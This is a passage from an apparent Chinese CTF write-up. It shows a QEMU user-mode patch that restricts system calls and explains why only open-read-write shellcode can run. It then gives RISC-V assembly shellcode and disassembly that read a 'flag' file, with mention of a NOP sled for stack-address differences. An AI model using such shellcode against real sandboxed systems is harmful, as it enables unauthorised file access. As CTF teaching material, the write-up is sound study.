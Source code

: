 ```
+        case TARGET_NR_openat2:
+        case TARGET_NR_openat:
+        case TARGET_NR_read:
+        case TARGET_NR_readv:
+        case TARGET_NR_write:
+        case TARGET_NR_writev:
+        case TARGET_NR_mmap:
+        case TARGET_NR_munmap:
+        case TARGET_NR_exit:
+        case TARGET_NR_exit_group:
+        case TARGET_NR_mprotect:
+            ret = do_syscall1(cpu_env, num, arg1, arg2, arg3, arg4,
+                    arg5, arg6, arg7, arg8);
+            break;
+        default:
+            printf("[!] %d bad system call\n", num);
+            ret = -1;
+            break;
+    `}`

     if (unlikely(qemu_loglevel_mask(LOG_STRACE))) `{`
         print_syscall_ret(cpu_env, num, ret, arg1, arg2,
```

我们看到其只允许调用特定的系统调用，也就是我们只能编写`orw shellcode`，而程序没有开启`pie`，也就是栈地址固定不变（需要注意的是本地栈地址和远程不一样，因此需要添加滑板指令）。

`shellcode`的编写参考网上的`shellcode`

```
.section .text
.globl _start
.option rvc
_start:
    #open
    li a1,0x67616c66 #flag
    sd a1,4(sp)
    addi a1,sp,4
    li a0,-100
    li a2,0
    li a7, 56 # __NR_openat
    ecall
    # read
    c.mv a2,a7
    addi a7,a7,7
    ecall
    # write
    li a0, 1
    addi a7,a7,1
    ecall
```

```
10078:    676175b7              lui    a1,0x67617
1007c:    c665859b              addiw    a1,a1,-922
10080:    00b13223              sd    a1,4(sp)
10084:    004c                  addi    a1,sp,4
10086:    f9c00513              li    a0,-100
1008a:    4601                  li    a2,0
1008c:    03800893              li    a7,56
10090:    00000073              ecall
10094:    8646                  mv    a2,a7
10096:    089d                  addi    a7,a7,7
10098:    00000073              ecall
1009c:    4505                  li    a0,1
1009e:    0885                  addi    a7,a7,1
```